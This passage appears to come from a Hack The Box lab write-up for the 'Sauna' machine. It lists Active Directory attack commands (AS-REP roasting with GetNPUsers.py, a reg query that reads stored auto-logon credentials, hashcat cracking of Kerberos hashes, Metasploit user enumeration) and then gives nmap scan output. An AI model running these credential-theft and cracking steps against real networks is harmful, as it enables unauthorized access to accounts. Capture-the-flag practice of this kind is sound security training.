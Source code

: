 #### GetNPUsers.py

* Extracts the Kerberos `krb5asrep` hashes for users from the domain controller.  This requires a valid `DOMAINNAME/username` pair to run.  Will only extract hashes for users that do not require Kerberos pre-authentication. 
* `python3 GetNPUsers.py -outputfile <out_file> -format hashcat -usersfile <username_file> -no-pass -dc-ip 10.10.10.175 <domain_name>/<user_name>`
* In this example the output will be in hashcat format.

### Extracting Windows Auto-logon credentials with `reg query`

The command `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"` will output any stored Windows Auto-logon credentials.

### Using `hashcat` to crack Kerberos hashes

* In order to crack `krb5asrep` type hashes the `-m 18200` option is needed.
* `hashcat -m 18200 -a 0 <input_file> <wordlist> --force`

### Enumerating valid usernames through `kerberos` using MetaSploit

In the Metasploit console the `auxiliary(gather/kerberos_enumusers)` tool enumerates valid users against Kerberos from a list.  This scanner also checks if each user has "pre-auth required" enabled.

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.175`. The options I regularly use are: `-p-`which is a shortcut which tells nmap to scan all ports, `-sC`  is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oN`  saves the output with a filename of `<name>`.

```text
zweilos@kalimaa:~/htb/sauna$ sudo nmap -p- -sC -sV -oN sauna.nmap 10.10.10.175
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 14:07 EDT
Nmap scan report for 10.10.10.175
Host is up (0.14s latency).
Scanned at 2020-06-01 14:07:43 EDT for 553s
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-06-02 01:15:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
| ssl-date: 
|_  ERROR: Unable to obtain data from the target
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
```